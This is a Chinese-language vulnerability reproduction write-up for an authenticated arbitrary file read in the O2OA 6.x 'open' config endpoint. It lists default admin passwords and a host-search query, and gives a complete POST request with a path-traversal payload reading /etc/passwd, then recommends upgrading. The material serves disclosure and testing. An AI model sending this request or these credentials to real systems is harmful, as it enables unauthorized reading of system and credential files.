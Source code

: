 # O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA 是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动 OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA 系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

```
O2OA 6.x
```

## 网络测绘

```
title=="O2OA"
```

## 环境搭建

在 [官网下载](https://www.o2oa.net/download.html) 一个 6.2.0 版本，本地搭建测试：

```
unzip o2server-6.2.0-linux-x64.zip 
cd o2server
./start_linux.sh
```

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228143549531.png)

## 漏洞复现

默认密码登录后台 `xadmin/o2`（或 `xadmin/o2oa@2022`）。

发送数据包：

```
POST /x_program_center/jaxrs/config/open?v=6.3 HTTP/1.1
Host: 10.0.12.15:20030
Accept: */*
Referer: http://10.0.12.15/
Accept-Encoding: gzip, deflate
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://10.0.12.15
authorization: PfyuxmzgIzrLF0IUhEF-rgO3PHNy_z4650QnO7mEHhA
Content-Length: 1048

{"fileName":"../../../etc/passwd"}
```

![](images/O2OA%20open%20后台任意文件读取漏洞/image-20250228160632284.png)

文件不存在时，响应包：

![](images/O2OA%20open%20后台任意文件读取漏洞/image-20250228160910347.png)

## 漏洞修复

建议升级 O2OA 最新版本： https://www.o2oa.net/download.html
